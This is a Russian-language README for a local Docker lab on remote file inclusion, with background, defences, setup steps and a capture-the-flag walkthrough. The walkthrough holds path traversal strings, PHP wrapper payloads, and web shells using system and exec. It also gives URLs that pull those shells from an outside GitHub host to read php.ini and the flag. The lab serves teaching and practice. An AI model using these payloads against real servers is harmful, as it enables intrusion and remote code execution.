









## Описание уязвимости
Данная уязвимость позволяет включать в ответ на запрос удалённые файлы(а в некоторых случаях даже их исполнять). Иногда, если удалённые файлы включаются в ответ на запрос RFI может легко перетекать в SSRF.
Данная уязвимость тесно связана с LFI. В большинстве случаев RFI возможна тогда и только тогда, когда возможна и LFI.
Функции в разных языках, которые могут приводить к RFI:
- **PHP**: `include()`/`include_once()`, `file_get_contents()`
- **Java**: `import`
- **.NET**: `@Html.RemotePartial()`, `include`
## Способы защиты
В большинстве случаев, необходимо убрать у пользователей возможность взаимодействовать с файловой системой, но если этого сделать нельзя, то тогда можно попытаться использовать следующие механизмы защиты. 
- Использовать те же самые методы защиты, что и при LFI, так как уже было сказано, что они тесно связаны
- Необходимо выставлять значение переменных allow_url_fopen  или allow_url_include на off в файле php.ini
- Использование WAF
- Использование white листов
- Проверки на содержимое GET-параметров, используемых в уязвимых функциях
## Запуск приложения
Для запуска приложения необходимо:
- скачать репозиторий
- в файле \/etc\/hosts прописать: `10.90.0.110 lang.local`, где вместо `10.90.0.110` должно быть записано содержимое переменной NGINX_IP из файла .env
- зайти в директорию с файлом docker-compose.yaml
- в случае, если необходимо поменять значения переменных окружений в файле .env(данный файл содержит переменные NET_IP, FPM_IP, NGINX_IP, FLAG, где NET_IP задаёт значение IP адреса сети remote-file-inclusion_mynetwork, FPM_IP задаёт IP-адрес контейнера c php-fpm, NGINX_IP задаёт IP адрес контейнера с nginx, а FLAG задаёт флаг; в случае, если на устройстве есть сетевой интерфейс с IP-адресом из файла .env имеет смысл поменять адреса в соответствие с RFC 791)
- в случае, если не нужно менять параметры, зайти из терминала в директорию с конфигурационными файлами и прописать:
```shell
docker-compose up
```
- для завершения необходимо в терминале в той же папке, что и docker-compose.yaml прописать docker-compose down
- в случае, если при новом запуске выводится ошибка подобная `ERROR: Network "remote-file-inclusion_mynetwork" needs to be recreated - IPAM option`, необходимо прописать: `docker network rm remote-file-inclusion_mynetwork` и после этого перейти к шагу 4
- можно также менять значения переменных файле php.ini(например прописав `disable_functions = exec,passthru,system`)
## Описание уязвимости в приложении
Необходимо получить доступ к файлу \/flag.txt.
В данном приложении есть возможность выбора языка, на котором отобразится текст страницы. Реализована данная возможность с помощью передачи GET параметра lang в HTTP запросе к index.php. У пользователя есть возможность обращаться только к файлам index.php и style.css.
Приложение получает GET параметр, обрабатывая его при этом(происходит циклическая проверка на наличие ..\/, различных обёрток и схем(с помощью регулярных выражений)). После этого происходит включение файла, находящегося по пути из переменной $path_to_lang_file:
```php
<?php
	include $path_to_lang_file;
	echo $text;
?>
```
Последовательность действий:
- проверить на наличие уязвимостей типа LFI, path traversal.
- попытаться включить какую-то страницу, например `http://lang.local/`
- создать файл с каким-то php кодом и расположить его на сервере с белым IP, либо создать файл на github
- в качестве значения GET параметра выставить ссылку на этот файл

## Решение
Первые шаги почти такие же, как и в LFI стенде:
В качестве значений GET параметров используем следующие значения:
```http
../../../../../../../../../../../../etc/passwd
..././..././..././..././..././..././..././etc/passwd
....//....//....//....//....//....//....//....//etc/passwd
%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd
%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd
```
В результате будет выводиться следующее:

Это может навести на мысль о том, что значение заголовка фильтруется.
Можно использовать php обёртки и различные схемы для получения index.php в base64:
`php://filter/convert.base64-encode/resource=./index.php`, `expect://id`, `data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id`.

Но к сожалению обёртки не работают.
Проверим что произойдёт, если в качестве значения GET-параметра передать следующую ссылку:
```http
http://lang.local
```

Видно что в ответ на запрос, вернулся страница в странице. Это явно намекает о наличии RFI.
Для эксплуатации попытаемся использовать обычный payload с функцией `system`.
```php
<?php system($_GET["cmd"]);?>
```
Данный файл находится по следующей ссылке:
```http
https://raw.githubusercontent.com/Truncheon-eng/Remote-File-Inclusion/refs/heads/main/payloads/system_payload.php
```
В конечном итоге будем использовать такой url, который необходимо подставить в поисковую строку:
```http
http://lang.local/?lang=https://raw.githubusercontent.com/Truncheon-eng/Remote-File-Inclusion/refs/heads/main/payloads/system_payload.php&cmd=ls ./
```

Видим ошибку, которая связана с тем, что функция `system` запрещена для использования.
Следующее действие, которое можно сделать - это попытаться вытащить файл .\/index.php с помощью следующего payload:
```php
<?php
$content = file_get_contents($_GET['file']);
$base64Content = base64_encode($content);
echo $base64Content;
?>
```
Данный payload находится по следующей ссылке:
```http
https://raw.githubusercontent.com/Truncheon-eng/Remote-File-Inclusion/refs/heads/main/payloads/get_info.php
```
Окончательный url для подстановки в поисковую строку:
```http
http://lang.local/index.php?lang=https://raw.githubusercontent.com/Truncheon-eng/Remote-File-Inclusion/refs/heads/main/payloads/get_info.php&file=./index.php
```
Получаем base64 закодированное содержимое .\/index.php:

В результате декодирования получим:

Это даёт нам подсказку на поиск какого-то файла в директории \/usr\/local\/etc\/php. Вероятней всего - это файл php.ini.
Подставим теперь в поисковую строку следующий URL:
```http
http://lang.local/index.php?lang=https://raw.githubusercontent.com/Truncheon-eng/Remote-File-Inclusion/refs/heads/main/payloads/get_info.php&file=/usr/local/etc/php/php.ini
```
Получаем следующее содержимое:

Так как ранее было показано, что функция `system` отключена, то имеет смысл посмотреть все отключенные функции в переменной `disable_functions`:

Запрещены три функции, которые используются для исполнения консольных команд. Если поискать, то можно найти, что кроме этих трёх функций для  выполнения команд можно использовать команду `exec`.

Будем использовать такой payload для того, чтобы получить доступ к флагу:
```php
<?php
$output = null;
exec($_GET['cmd'], $output);
print_r($output);
?>
```
Конечный url для поисковой строки выглядит так:
```http
http://lang.local/index.php?lang=https://raw.githubusercontent.com/Truncheon-eng/Remote-File-Inclusion/refs/heads/main/payloads/exfil_flag.php&cmd=cat /flag.txt
```
Получаем флаг:

Второй payload можно использовать в том случае, если `system`и остальные похожие функции отключены в php.ini.
[LFI_with_sess_poisoning](https://github.com/Truncheon-eng/LFI_with_sess_poisoning)
